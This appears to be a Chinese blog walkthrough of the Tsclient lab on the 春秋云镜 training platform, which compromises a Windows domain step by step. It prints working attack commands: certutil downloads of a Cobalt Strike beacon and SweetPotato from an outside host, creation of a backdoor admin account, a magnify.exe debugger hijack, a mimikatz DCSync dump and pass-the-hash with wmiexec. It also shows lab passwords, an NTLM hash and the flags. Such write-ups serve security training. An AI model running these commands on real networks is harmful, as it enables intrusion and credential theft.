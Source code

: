 # 春秋云镜-Tsclient

  
  
&lt;!--more--&gt;  
## flag01  
`39.99.133.30`  
只给了一个`IP`，利用`fscan`扫描，  
可以爆破出账号和密码`sa/1qaz!QAZ`，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162259491.png)
利用`MDUT`进行攻击，利用开启`xp_cmdshell`进行`RCE`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162307264.png)
存在`SeImpersonatePrivilege`权限，可以进行脏土豆进行提权  
`certutil -urlcache -split -f http://8.137.71.171:8809/artifact.exe C:\Users\Public\a.exe`  
上传CS进行操作  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162332926.png)
脏土豆提权  
`certutil -urlcache -split -f http://8.137.71.171:8809/SweetPotato-new.exe C:\Users\Public\s.exe`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162344454.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162346560.png)
`flag{f8d4772e-3b4d-4d1d-8454-091b5904c6c0}`，还有`hint`  
`Maybe you should focus on user sessions...`  
## flag02  
上线一个最高权限的用户`C:\Users\Public\s.exe -a &#34;C:\Users\Public\a.exe&#34;`  
查看在线用户  
`shell query user`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162349969.png)
直接注入一个`john`用户的进程，获得一个`john`用户的权限  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162351772.png)
`shell net use`查看到与其他主机的连接  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162352680.png)
`shell dir \\TSCLIENT\C`查看远程目录，发现`credential.txt`  
`shell type \\TSCLIENT\C\credential.txt`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504162354601.png)
获得了账号和密码`xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#`，还有`hint`  
`Do you know how to hijack Image?`  
添加一个用户，连接3389  
```  
shell net user huahua 123@qwer! /add  
shell net localgroup administrators huahua /add  
```  
上传`fscan`开扫，  
```  
C:\Users\huahua\Desktop&gt;fscan.exe -h 172.22.8.18/24  
  
   ___                              _  
  / _ \     ___  ___ _ __ __ _  ___| | __  
 / /_\/____/ __|/ __| &#39;__/ _` |/ __| |/ /  
/ /_\\_____\__ \ (__| | | (_| | (__|   &lt;  
\____/     |___/\___|_|  \__,_|\___|_|\_\  
                     fscan version: 1.8.3  
start infoscan  
trying RunIcmp2  
The current user permissions unable to send icmp packets  
start ping  
(icmp) Target 172.22.8.46     is alive  
(icmp) Target 172.22.8.15     is alive  
(icmp) Target 172.22.8.18     is alive  
(icmp) Target 172.22.8.31     is alive  
[*] Icmp alive hosts len is: 4  
172.22.8.18:1433 open  
172.22.8.31:445 open  
172.22.8.15:445 open  
172.22.8.46:445 open  
172.22.8.18:445 open  
172.22.8.31:139 open  
172.22.8.15:139 open  
172.22.8.46:139 open  
172.22.8.31:135 open  
172.22.8.18:139 open  
172.22.8.15:135 open  
172.22.8.46:135 open  
172.22.8.18:135 open  
172.22.8.46:80 open  
172.22.8.18:80 open  
172.22.8.15:88 open  
[*] alive ports len is: 16  
start vulscan  
[*] NetInfo  
[*]172.22.8.31  
   [-&gt;]WIN19-CLIENT  
   [-&gt;]172.22.8.31  
[*] NetInfo  
[*]172.22.8.46  
   [-&gt;]WIN2016  
   [-&gt;]172.22.8.46  
[*] NetBios 172.22.8.15     [&#43;] DC:XIAORANG\DC01  
[*] NetBios 172.22.8.31     XIAORANG\WIN19-CLIENT  
[*] NetInfo  
[*]172.22.8.18  
   [-&gt;]WIN-WEB  
   [-&gt;]172.22.8.18  
   [-&gt;]2001:0:348b:fb58:304e:318a:d89c:7ae1  
[*] WebTitle http://172.22.8.18        code:200 len:703    title:IIS Windows Server  
[*] NetInfo  
[*]172.22.8.15  
   [-&gt;]DC01  
   [-&gt;]172.22.8.15  
[*] NetBios 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393  
[*] WebTitle http://172.22.8.46        code:200 len:703    title:IIS Windows Server  
[&#43;] mssql 172.22.8.18:1433:sa 1qaz!QAZ  
已完成 16/16  
[*] 扫描结束,耗时: 10.0026477s  
```  
上传拿到一个域内用户的账号和密码，所以目标很明确，直接打`pth`  
```  
(icmp) Target 172.22.8.46     is alive WIN2016.xiaorang.lab  
(icmp) Target 172.22.8.15     is alive XIAORANG\DC01  
(icmp) Target 172.22.8.18     is alive hacker  
(icmp) Target 172.22.8.31     is alive WIN19-CLIENT  
```  
先打域内的机器`172.22.8.46`和`172.22.8.15`，域控无法连接  
直接上传`frp`，`3389`连接，这里需要修改密码  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170016804.png)
根据`hint`是映像劫持提权  
查看权限  
```  
get-acl -path &#34;HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options&#34;  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170019412.png)
所有用户都可以修改注册表，所以这里直接改即可。  
```  
REG ADD &#34;HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe&#34; /v Debugger /t REG_SZ /d &#34;C:\windows\system32\cmd.exe&#34;  
```  
在登陆账户界面选择放大镜  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170022875.png)
劫持成功，并成功提权。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170022514.png)
`flag{b5ae73f0-9da7-471b-9b95-a5bc8656a7c7}`  
## flag03  
`172.22.8.46`不出网，在CS做一层代理上线  
成功上线  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170031068.png)
这里直接打`DCSync`dump administrator的hash  
`shell C:\\Users\\Aldrich\\Desktop\\mimikatz.exe &#34;privilege::debug&#34; &#34;lsadump::dcsync /domain:xiaorang.lab /all /csv&#34; &#34;exit&#34;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170044300.png)
直接`pth`  
`python3 wmiexec.py xiaorang.lab/Administrator@172.22.8.15 -hashes :2c9d81bdcf3ec8b1def10328a7cc2f08`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504170045115.png)
`flag{de7ad04b-823b-434c-820c-545f08e19ac0}`  
  
  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-tsclient/  

